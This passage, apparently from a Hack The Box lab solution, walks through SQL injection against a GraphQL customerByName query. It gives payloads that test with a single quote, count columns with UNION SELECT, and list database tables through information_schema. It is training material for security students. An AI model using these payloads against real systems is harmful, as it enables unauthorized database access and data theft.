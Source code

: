 ![[HTB Solutions/Others/z. images/44657a57c739afcd1a62c8798c020508_MD5.jpg]]

Next, students will use the `customerByName` object, specify the `apiKey`, and specify one of the three last names for`lastName` from the previous GraphQL query, and test for a SQL Injection vulnerability by injecting a single quote using the following query:

```graphql
{
  customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Blair'") {
    firstName
    lastName
    address
  }
}
```

![[HTB Solutions/Others/z. images/f3603d7def010c7debb1f09ebb05096d_MD5.jpg]]

Having verified the SQL injection vulnerability, students will proceed to query the number of columns using `UNION SELECT` statement to identify 4 columns matching the number of columns in the original query:

```graphql
{
  customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Blair' UNION SELECT 1,2,3,4 -- -") {
	id
    firstName
    lastName
    address
  }
}
```

![[HTB Solutions/Others/z. images/2b94f3277d05658d54f5961d3f167277_MD5.jpg]]

Next, students will query the tables in the database to find the `flag` table using the SQL injection vulnerability and the following query and use the first name of the customer instead:

```graphql
{
  customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Antony' UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema=database() -- -") {
	id
    firstName
    lastName
    address
  }
}
```

![[HTB Solutions/Others/z. images/e748c56c6993037a63dd1f9e9286ea0b_MD5.jpg]]

Next, students will modify the `graphql` SQL injection to obtain the flag in the `flag` table:
